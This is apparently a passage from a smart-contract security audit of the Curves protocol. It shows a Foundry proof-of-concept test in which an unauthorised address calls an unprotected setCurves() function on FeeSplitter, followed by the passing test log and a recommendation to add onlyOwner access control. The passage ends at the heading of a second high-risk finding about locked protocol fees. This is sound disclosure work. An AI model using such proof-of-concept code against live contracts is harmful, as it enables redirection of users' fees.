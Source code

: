 ```solidity
    }

    function test_POC_LackAccessControl_setCurves() public {
        vm.startPrank(Eva);
        FeeSplitter otherSplitter = new FeeSplitter();
        Curves otherCurves = new Curves(address(factory), address(otherSplitter));
        feeSplitter.setCurves(otherCurves);
        vm.stopPrank();
    }
}
```

### Test Result
```log
$ forge test --mt test_POC_LackAccessControl_setCurves -vvv
[⠒] Compiling...
[⠢] Compiling 1 files with 0.8.7
[⠒] Solc 0.8.7 finished in 13.55s
Compiler run successful!

Running 1 test for FeeSplitter.t.sol:FeeSplitterTest
[PASS] test_POC_LackAccessControl_setCurves() (gas: 3605952)
Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 2.89ms

Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

## Tools Used
Foundry

## Recommended Mitigation Steps
To mitigate this issue, the `setCurves()` function should be protected by an access control mechanism, such as the `onlyOwner` modifier that is utilized in other functions within the contract. 
This would ensure that only authorized addresses, likely those associated with the contract's owner, have the ability to modify the `curves` reference. 
Implementing this change would prevent unauthorized and potentially harmful reassignment of the `Curves` contract, thus safeguarding the integrity of the fee distribution process.

# Curves finding: Protocol Fee NOT Transferred to Protocol Fee Destination During Selling And LOCKED in `Cruves` Contract

## Risk Rating
**High Risk**

# Lines of code
